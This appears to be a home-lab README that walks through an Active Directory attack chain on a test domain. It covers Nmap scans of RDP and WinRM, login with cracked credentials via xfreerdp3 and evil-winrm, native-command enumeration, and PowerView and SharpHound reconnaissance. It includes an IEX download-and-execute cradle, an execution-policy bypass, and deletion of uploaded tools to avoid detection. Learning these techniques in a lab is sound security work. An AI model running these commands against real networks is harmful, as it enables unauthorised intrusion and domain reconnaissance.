

# Attacker Commands

Then attacker compromised the victim domain by following the 4 general steps:
- Initial Access
- Low Noise - Native Powershell commands
- PowerView
- BloodHound

Below is a breakdown of the commands used in each phase of the attack.

---

## Step 1: Initial Access

We have two options: **RDP** and **WinRM**. See how each valid protocol can be leveraged by an attacker below:

### RDP

RDP provides full interactive access to the workstation.

First step is to investigate the various aspects of the RDP protocol in the victim environment by running the followng commands using **Nmap**:

1. Run the following command to view which workstations have the default RDP port 3389 open and which services are running on it.

```
nmap -p 3389 -sV 192.168.4.0/24
```

2. Run the command below to investigate the security configuration of the RDP protocol.

```
nmap -sV --script rdp-enum-encryption -p 3389 192.168.4.0/24
```

3. Confrim if RDP is running on non-standard ports by scanning all the ports in the domain and using the Service Version Detection flag.

```
nmap -sV -p- 192.168.4.0/24 -T4
```

Next step is to exploit the open RDP port of the identified IP address whose credentials were sniffed and cracked during the LLMNR poisoning attack. Check the Medium docs for more information.

```
xfreerdp3 /v:192.168.4.16 /u:ronyango /p:Password@1
```

RDP is noisy from a detection standpoint. This brings the need for WinRM, remote management via command line.

---

### Windows Remote Management (WinRM)

Leverage WinRM to initate a remote PowerShell session on the target system. This is more stealthy.

First, use Nmap to confirm that the service is running on its default ports i.e. 5985 and 5986 using the command below:

```
nmap -sV -p 5985,5986 192.168.4.0/24
```

Access is acheived by using the tool **evil-winrm**. The following are the commands to use with the tool:

1. Install **evil-winrm** on your Kali Attack VM.

```
sudo apt install evil-winrm
```

2. Open the help page of the tool

```
evil-winrm -h
```

3. Open the PowerShell terminal by providing the IP address of the victim host (-i), the domain username (-u) and the cracked password (-p)

```
evil-winrm -i 192.168.4.16 -u ronyango -p Password@1 -P 5985
```

See the PowerShell session started as in the image below.



---

## Step 2: Low Noise Enumeration (Native PowerShell Commands)

After establishing access via WinRm, the next step is to gain situational awareness of the compromised system and its position in the domain.

This is an early stage in the attack, therefore we rely on native Windows and PowerShell commands, achieving stealthy **living-off-the-land**. 

The following commands, which are commonly used by system administrators, allows us to maintain a level of anonimity early on in the attack chain.

1. Identify the current user, display his/her group memberships and the privilege levels:

```
whoami
whoami /all
```

2. Identify the current system and host configuration:

```
hostname
systeminfo
```

3. Identify the network configuration. 

```
ipconfig /all
```

4. List the users currently logged into the system for potential credential theft or lateral movemnet victims.

```
query user
```

5. Enumerate the domain users & groups

```
net user /domain
net group /domain
```

6. Show the domain-related environment variables 

```
echo %mydomain.com%
```

7. List all the shared folders on the system

```
net share
```

8. General network discovery:

Show recently contacted hosts from the compromised machine

```
arp -a
```

List visible machines on the network to provide a view of nearby systems (Requires privileged permissions)

```
net view
```

---

## Step 3: PowerView Enumeration

After performing initial low-noise enumeration, transition to more structured Active Directory reconnisance using PowerView. 

A noiser option would be to download the script from the internet and then immediately execute it directly from the WinRM PowerShell session. This would leave behind artifacts like *outbound HTTP traffic* and alerts like *PowerShell downloading remote script*.

```
IEX (New-Object Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1')
```

- **DownloadString**: This reaches out to the internet and grabs the text of a script.
- **Parentheses ()**: These ensure the download happens first and the result is handed over to the next command.
- **IEX (Invoke-Expresion)**: This takes that downloaded text and executes it immediately in the computer's memory.

The steps below show a stealthier and more practical way of moving forward with enumeration. Ensure you have the Powerview.ps1 script downloaded from GitHub repo and saved on your Kali Linux machine before you proceed.

On the WinRM PowerShell session:

Point the session to the user's temporary directory

```
cd $env:Temp
```

Upload the powerview.ps1 script.

```
upload /home/robert/Attacking_AD/PowerView.ps1
```

Get the content of the script and execute it using **IEX**

```
IEX (Get-Content .\PowerView.ps1 -Raw)
```

OR

Start a new PowerShell process that temporarily disables the built-in security controls for execution

```
powershell -ep bypass
```

Load the script as a module into the current session

```
Import-Module .\PowerView.ps1
```

Exeute the script in the current session by loading its functions into memory

```
. .\PowerView.ps1
```

Remove the contents of powerview.ps1 from the victim machine

```
Remove-Item .\PowerView.ps1
```

After successful installation of Powerview, we can proceed with the enumeration task by using the following commands:

1. Get high-level information about the domain.

```
Get-Domain
```

2. Get the list of domain controllers

```
Get-DomainController
```

3. Retrieve information about the domain policy

```
Get-DomainPolicy
```

4. View information on the *system access* domain policy

```
(Get-DomainPolicy)."system access"
```

5. Get the list of all the users in the domain

```
Get-DomainUser
```

6. Get list of all users but only show the usernames

```
Get-DomainUser | select cn
```

7. Get list if users, show SAMAcccountNames

```
Get-DomainUser | select samaccountname
```

8. Get user description

```
Get-DomainUser | select description
```

9. Retrieve user properties

```
Get-DomainUserEvent
```

10. Retrieve information about the computers in the domain

```
Get-DomainComputer
```

```
Get-DomainComputer -FullData
```

```
Get-DomainComputer -FullData | select OperatingSystem
```

11. Retrieve information about groups

```
Get-DomainGroup
```

12. Retrieve domain admins

```
Get-DomainGroup -GroupName "DomainAdmins"
```

13. Get all the admin groups using the (*) wildcard:

```
Get-DomainGroup -GroupName *admin*
```

14. Retrieve group members of the Domain Admins group

```
Get-DomainGroupMember -GroupName "Domain Admains"
```

15. See all the shares in the network i.e. what files are being shared and where they're being shared

```
Find-DomainShare
```

16. Retrieve all the Group Policies

```
Get-DomainGPO
```

17. Filter the Group Policies by name and when changed

```
Get-DomainGPO | select displayname, whenchanged
```

---

## Part 4: BloodHound

BloodHound exxtends Powerview's capabilities by automating the process of relationship mapping within the domain. It collects large amount of data and representiung it as a graph allowing the attacker to quickly identify privilege escalation paths, misconfigurations, and hidden trust relationships that may not be immediately obvious through manual queries. 

The next steps require that you install BloodHound  and download the SharpHound collector script on your Kali Attack VM. 

Proceed with the steps that follow:

On the WinRM PowerShell session, upload the sharphound.ps1 script.

```
upload sharphound.ps1
```

Get the content of the script and execute it using **IEX**

```
IEX (Get-Content .\sharphound.ps1 -Raw)
```

Remove the contents of sharphound.ps1 from the victim machine

```
Remove-Item .\sharphound.ps1
```

Execute SharpHound - BloodHound’s data collector

```
Invoke-BloodHound -CollectionMethod All -Domain mydomain.com -ZipFileName mydomainfile.zip
```

Transfer the file with the collected data back to Kali Linux Attack VM

```
download mydomainfile.zip
```